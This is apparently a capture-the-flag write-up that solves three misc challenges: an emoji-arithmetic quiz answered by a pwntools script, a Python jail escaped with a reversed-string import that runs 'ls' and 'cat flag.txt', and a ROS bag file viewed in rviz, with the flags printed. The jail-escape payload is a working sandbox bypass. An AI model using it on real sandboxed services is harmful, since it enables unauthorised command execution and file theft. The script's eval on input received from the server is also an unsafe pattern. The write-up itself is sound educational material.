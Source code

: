 # Misc

## Alien Camp

* The challenge server sends a randomized set of emoji and value pair
* We can get all pairs from option 1
* After getting all pairs we can start calculating values for each question
* If you get EOF Error just restart the script
* After 500 questions we get the flag

```python
    #!/usr/bin/env python3
    
    from pwn import *
    
    host = '46.101.82.40'
    port = 32156
    conn = remote(host, port)
    conn.recvuntil('>').decode()
    print('[+] Getting some help...')
    conn.send('1\n')
    out = conn.recvuntil('\n>').decode()
    help_arr = out.split('\n')
    help_txt = help_arr[2]
    store = help_txt.split(' ')
    emojis = []
    vals = []
    new_store = {}
    counter = 0
    for item in store[0::3]:
        if len(item) > 0:
            emojis.append(item)
    for item in store [2::3]:
        vals.append(item)
    for emo in emojis:
        new_store[emo] = vals[emojis.index(emo)]
    if len(new_store) != 0:
        print('[+] Help recieved!')
    conn.send('2\n')
    def solve(conn):
        global counter
        if counter != 500:
            q_txt = conn.recvuntil('?').decode()
            q_txt = q_txt.split('\n')
            q_txt = q_txt[-1]
            print(f'[Q:{counter}] {q_txt}')
            q_txt = q_txt.split('  =')
            q_txt = q_txt[0]
            q_emo = q_txt.split(' ')
            for elem in q_emo:
                if elem in new_store:
                    q_txt = q_txt.replace(elem, new_store[elem])
            ans = eval(q_txt)
            print(f'[+] Sending {ans}')
            conn.send(str(ans) + '\n')
        else:
            flag = conn.recvuntil('}').decode()
            print(flag)
            conn.close()
        counter += 1
    while counter <= 500:
        solve(conn)
```

---

## Input as a service

* We are given a py-jail 
* https://programmer.help/blogs/python-sandbox-escape.html 
* I used this website as reference, `os` and such imports are banned, so we used string manipulation
* we just reverse the string `os` to `so` and import it and then do `ls` command to * * see the `flag.txt` and then just `cat` the flag
* the code to do is given below

```bash
# use this to check the files present

__import__('so'[::-1]).system('ls')

# this is called reverse print method, "so" actually os

flag.txt
input_as_a_service.py

# read the file

__import__('so'[::-1]).system('cat flag.txt')

CHTB{4li3n5_us3_pyth0n2.X?!}
```

## OR

>In order to blend with the extraterrestrials, we need to talk and sound like them. Try some phrases in order to check if you can make them believe you are one of them.

the webpage seemed weird, it was like the error messages of python IDE

```
2.7.18 (default, Apr 20 2020, 19:51:05) 
[GCC 9.2.0]
Do you sound like an alien?
>>> 


 Traceback (most recent call last):
  File "/app/input_as_a_service.py", line 16, in <module>
    main()
  File "/app/input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1
    GET /app/input_as_a_service.p HTTP/1.1
                                     ^
SyntaxError: invalid syntax
```

![](https://i.imgur.com/HqDTpea.png)

then i noticed that it is executing python so i searched for flag.txt and read() it
```
open("flag.txt", "r").read()
GET / HTTP/1.1
Host: 138.68.167.11:30982
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
### Flag
```
CHTB{4li3n5_us3_pyth0n2.X?!}
```
---

## Robotic Infiltration


* We got a `capture.bag` file in this one
* The challenge mentions ROS which leads to a utility called `rosbag`
* rosbag can be used to play this bag file
* Installation and tutorials are given in ros wiki : http://wiki.ros.org/Documentation
* The challenge mentions `rebuild plan for facility`
* after some poking around we saw rosbag comes with another utility known as `rviz`
* rviz can be used for 3d visualization of bag files

**Step 1 : Start roscore**

![](https://i.imgur.com/qxkFyLh.png)

**Step 2 : Play bag file**

```bash
$ rosbag play capture.bag
```

**Step 3 : Launch rviz**

```bash
$ rosrun rviz rviz
```

* Now all we had to do was tweak things in rviz a little to improve visibility and eventually we spotted the flag

![](https://i.imgur.com/82UsyXI.png)

* After some play and pause action we got the full flag

```
CHTB{r0s_1s_r0b0tic_p0w3r}
```

![](robotic.gif)